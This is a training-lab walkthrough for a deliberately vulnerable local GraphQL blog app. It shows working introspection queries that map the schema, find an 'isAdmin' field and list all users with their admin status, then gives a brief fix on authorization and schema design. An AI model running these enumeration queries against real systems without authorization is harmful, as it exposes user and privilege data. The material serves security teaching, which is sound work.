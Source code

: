 # GraphQL Introspection

The application uses GraphQL to retrieve Users and Posts for the defdev.eu new blog. 

> Run the application 

```sh
docker build . -t graphql/intro && docker run -ti -p 5000:5000 graphql/intro
```

Great now the app is running. Browse to `http://0.0.0.0:5000/` 

## Discovery 

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

<SCREENSHOT>


## Exploitation 

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported. 


Let' use the `GraphiQL` UI to send queries to the backend and discover what is available. 

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```
In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```
> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application. 
 

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}

```

## Fix

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.


